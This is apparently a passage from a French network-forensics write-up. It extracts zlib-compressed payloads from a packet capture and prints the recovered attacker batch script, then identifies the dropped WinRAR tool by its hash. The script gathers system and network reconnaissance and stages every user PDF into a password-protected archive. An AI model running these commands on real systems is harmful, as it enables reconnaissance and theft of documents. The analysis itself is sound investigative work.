```python
                            data += body

                continue
    except pcapy.PcapError:
        break

if data:
    fd = open("file{0:02}".format(i+1), "w")
    fd.write(zlib.decompress(data))
    fd.close()
```

Cela génère des fichiers 0 à 10 dont voici le contenu :  

```plain
mkdir c:\\windows\\a
c:\windows\a
@echo off 
echo %computername% >> c:\windows\a\%computername%_base.dat 
qwinsta >> c:\windows\a\%computername%_base.dat 
date /t >> c:\windows\a\%computername%_base.dat 
time /t >> c:\windows\a\%computername%_base.dat 
ipconfig /all >> c:\windows\a\%computername%_base.dat 
nbtstat -n >> c:\windows\a\%computername%_base.dat 
systeminfo >> c:\windows\a\%computername%_base.dat 
set >> c:\windows\a\%computername%_base.dat 
net share >> c:\windows\a\%computername%_base.dat 
net start >> c:\windows\a\%computername%_base.dat 
tasklist /v >> c:\windows\a\%computername%_base.dat 
netstat -ano >> c:\windows\a\%computername%_base.dat 
dir c:\ /a >> c:\windows\a\%computername%_base.dat 
dir d:\ /a >> c:\windows\a\%computername%_base.dat 
dir c:\progra~1 >> c:\windows\a\%computername%_base.dat 
dir c:\docume~1 >> c:\windows\a\%computername%_base.dat 
net view /domain >> c:\windows\a\%computername%_base.dat 
dir
rename e76a523f1b.dat 1.bat
dir
1.bat
dir
VICTIM_base.dat
@echo off 
cd c:\users && for /r %%i in (*.pdf) do copy "%%i" c:\windows\a\
cd c:\windows\a && a.exe a -hpqazWSXedc567 o.dat *.pdf
```

Le fichier 11 extrait par le dump est un exécutable Windows 32bits.  

A regarder de plus près avec *srch\_strings*, il s'agit de l'utilitaire winrar en ligne de commande.  

Une recherche DDG sur le hash MD5 du fichier (070d15cd95c14784606ecaa88657551e) confirme cette supposition.  
